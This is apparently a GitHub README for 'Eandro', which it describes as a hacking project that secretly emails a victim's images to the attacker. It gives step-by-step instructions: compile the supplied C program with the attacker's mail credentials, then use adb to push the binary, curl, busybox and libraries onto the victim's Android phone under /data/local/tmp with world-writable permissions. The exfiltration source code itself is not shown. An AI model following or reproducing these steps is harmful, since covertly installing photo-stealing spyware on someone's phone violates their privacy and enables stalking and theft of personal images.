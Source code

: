 # Eandro

Eandro is a Hacking Project to Automatical send Image of victim to Your Mail ID

Things You Need Above files
Copy Everything to your sdcard OR to your computer .

Make Sure adb Works either in Computer or Mobile Phone

1 . Install adb in Android or Computer

2 . Download Files that i Provided

3 . Download Eandro.c code to your Mobile or computer

4 . And here tough part comes install clang in Android or computer 

5 . To install clang in android install Termux in Android and type "apt install clang" without quotes.

6 . After install the c Compiler compile the code that i gave change the email and password and also from and to mail addresses

7 . To compile c code in android copy the /data/data/com.termux/files/home/ i.e Home Directory and type "gcc eandro.c -o eandro" [ Without Quotes ]

8 . Next you need to push all files and compiled binaryfile to /data/local/tmp/ of the Victims Mobile

To Push the Files you need to follow the steps

In Android : Below Command are steps to push the files to Victims Mobile if adb supports to your mobile i included adb binary file here download it

I suggest to download Termux and install certain packages 

apt install git 

apt install clang

after successfully installtion of these two proceed following steps

> cd /data/data/com.termux/files/home/

> git clone git@github.com:maddalakum/Eandro.git

> cd /data/data/com.termux/files/home/Eandro/lib64/ ; 

> adb shell "if [ ! -d /data/local/tmp/lib64 ] ; then mkdir /data/local/tmp/lib64 ; chmod 777 /data/local/tmp/lib64;fi " ; 

> for i in `ls`; do  adb push $i /data/local/tmp/lib64/ ; done ; 

> adb push ../curl /data/local/tmp/ ; 

> adb push ../busybox /data/local/tmp/

In Computer download the Zip file place the file in desktop and unzip and push the files normall as i said to android

Watch My Video to how to do it 

https://www.youtube.com/channel/UCYgXhhbtAuFHOKsNDujcxzQ
